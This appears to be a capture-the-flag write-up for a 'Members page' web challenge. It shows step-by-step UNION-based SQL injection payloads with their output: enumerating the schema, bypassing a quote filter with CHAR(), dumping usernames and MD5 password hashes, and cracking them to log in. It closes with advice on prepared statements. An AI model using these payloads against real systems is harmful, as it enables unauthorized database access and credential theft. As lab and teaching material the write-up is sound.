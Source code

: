 # MEMBERS PAGE

## Explanations

While we were working on the images SQL injection, we noticed a strange table_schema. We used this:
```sql
1 UNION SELECT table_name, table_schema FROM information_schema.columns
```
and it gave this interesting info:
```
ID: 1 UNION SELECT table_name, table_schema FROM information_schema.columns 
First name: db_default
Surname : Member_Brute_Force
```

`Member_Brute_Force` ? We need to go deeper in this table and get the column names. Normally in SQL it would look like:
```sql
SELECT column_name, column_name FROM information_schema.columns WHERE table_schema='Member_Brute_Force'
```
However using quotes in the injection is not accepted... Why not trying to give him 1 by 1 the characters with `CHAR()` from SQL ?
The char codes for `Member_Brute_Force` would be `77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101`

Now let's try:
```sql
1 UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)
```
which gives us:
```
ID: 1 UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: id
Surname : id

ID: 1 UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: username
Surname : username

ID: 1 UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: password
Surname : password
```

Nice ! It seems like this table contains usernames and passwords, let's check them with:
```sql
1 UNION SELECT username, password FROM Member_Brute_Force.db_default
```
which gives us:
```
ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```

Great ! We have the root/admin identifiers. It seems like the password is MD5 encrypted, we decrypt it => `shadow`

Let's try to sign in now => Bingo ! The flag is : `B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2`

---

## How to avoid that security breach ?

A good way to counter that could be to use Prepared statements. ORMs do that trick usually pretty well. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

---

- [All infos about SQL database](https://stackoverflow.com/questions/600446/how-do-you-return-the-column-names-of-a-table)  
- [SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Find Table Names for SQL Injection](https://www.sqlinjection.net/table-names/)
- [MD5 decrypt](https://md5decrypt.net/)

